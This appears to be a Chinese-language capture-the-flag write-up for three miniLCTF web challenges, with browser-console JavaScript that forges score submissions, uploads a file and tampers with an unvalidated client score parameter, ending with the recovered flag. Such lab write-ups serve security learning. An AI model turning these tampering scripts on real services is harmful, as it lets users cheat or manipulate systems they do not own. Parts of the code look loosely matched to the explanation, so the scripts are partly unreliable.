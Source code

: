 # 吃豆人wp

连接网页后打开网页源代码搜索flag发现flag不在本地然后阅读代码，找到fetch方法发出的是post请求等条件将分数5001发送给服务器，得到flag控制台的JS代码如下

```json
fetch('submit_score', {
    method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ score: 5000 }) // 确保分数≥5000

}).then(response => response.json()).then(data => console.log("Flag:", data.flag)) // 假设响应包含flag字段 
    .catch(error => console.error("Error:", error));
```



# 麦霸wp

和上题同理直接搜索fetch找到fetch方法所要的条件将本地下载的.WAV音频上传给服务器js代码如下 

```json
const el = document.createElement('input');
el.type = 'file';
el.onchange = e => {
    fetch('/compare-recording', {
        method: 'POST', body: (() => {
            const fd = new FormData();
            fd.append('audio', e.target.files[0]); return fd;
        })()
    }).then(r => r.json()).then(console.log).catch(console.error)
};
el.click();
```

### GuessOneGuess 

##### 目标是

目标是猜数字游戏，用户需通过猜测1-100之间的数字累积分数。当分数超过JavaScript最大数值（Number.MAX_VALUE）时，服务器返回FLAG

思路：利用客户端参数篡改攻击

关键文件：

* ​game.pug​：前端游戏界面
* ​game-ws.js​：WebSocket游戏逻辑

翻看网页源代码，首先查看后端代码：

```json
if (totalScore > 1.7976931348623157e308) { message += `\n🏴 ${FLAG}`; showFlag = true; }
```

这是获取到flag的条件，查找计算totalScore的代码

```json
socket.on('guess', (data) => {
    try {
        console.log(totalScore); const guess = parseInt(data.value); if (isNaN(guess)) {
            throw new Error('请输入有效数字');

        } if (guess < 1 || guess > 100) { throw new Error('请输入1-100之间的数字'); } guessCount++;
        if (guess === targetNumber) {
            const currentScore = Math.floor(100 / Math.pow(2, guessCount - 1));
            totalScore += currentScore;
            let message = `🎉 猜对了！得分 +${currentScore} (总分数: ${totalScore})`;
            let showFlag = false;
        }
    }
```



正向加分数很明显行不通  
观察代码，发现一个punishment响应

```json
socket.on('punishment-response', (data) => {
    totalScore -= data.score; 
    guessCount = 0; 
    targetNumber = Math.floor(Math.random() * 100) + 1; 
    console.log(`新目标数字: ${targetNumber}`); 
    socket.emit('game-message', { 
        type: 'result', 
        win: true, 
        message: "扣除分数并重置",
        score: totalScore,
        showFlag: false, });
        totalScore -= data.score;
```



，并且没有对客户端提交的score参数做校验，那么就考虑客户端参数篡改+整数溢出漏洞（注入负值让totalScore超过这个超级大的数字）返回flag

直接写一个自动化脚本在控制台运行

```json
// 劫持分数显示，强制返回极大负值
const scoreDisplay = document.getElementById('score-display');
Object.defineProperty(scoreDisplay, 'textContent', {
  get: () => '-1.8e308',
  set: (v) => scoreDisplay.innerText = v
});

// 自动发送100次错误猜测
let wrongCount = 0;
const sendWrong = () => {
  if(wrongCount >= 100) return;
  document.getElementById('guess-input').value = 0;
  document.getElementById('guess-btn').click();
  wrongCount++;
  setTimeout(sendWrong, 30);
};
sendWrong();

// 自动爆破正确数字
let guessNumber = 1;
const bruteForce = () => {
  document.getElementById('guess-input').value = guessNumber;
  document.getElementById('guess-btn').click();
  guessNumber = guessNumber > 100 ? 1 : guessNumber + 1;
  setTimeout(bruteForce, 30);
};

// 检测到flag立即停止
const flagObserver = new MutationObserver(() => {
  if(document.getElementById('flag-display').style.display !== 'none') {
    console.log('成功获取Flag:', document.getElementById('flag-display').textContent);
    flagObserver.disconnect();
  }
});
flagObserver.observe(document.getElementById('flag-display'), { 
  attributes: true, 
  attributeFilter: ['style'] 
});

// 5秒后启动爆破
setTimeout(bruteForce, 5000);
```

得到flag:  
miniLCTF{yOu_woN-ThE_GU3ss1nG_g4M3_W0o77fc71b}
